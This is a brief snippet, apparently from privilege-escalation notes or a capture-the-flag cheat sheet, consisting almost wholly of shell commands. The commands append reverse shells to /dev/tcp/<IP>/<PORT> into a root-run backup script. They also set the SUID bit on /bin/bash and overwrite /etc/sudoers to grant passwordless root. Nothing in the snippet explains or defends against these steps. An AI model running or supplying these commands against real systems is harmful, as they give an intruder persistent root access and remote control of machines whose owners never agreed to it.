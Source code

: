 #### scripts

```
echo "/usr/bin/bash -l > /dev/tcp/<IP>/<PORT> 0<&1 2>&1" >> /var/backups/etc_Backup.sh 

echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /var/backups/etc_Backup.sh 

echo "chmod u+s /bin/bash" >> /var/backups/etc_Backup.sh 

echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers

/bin/bash -i

/bin/sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

don't forget add `cmode +x`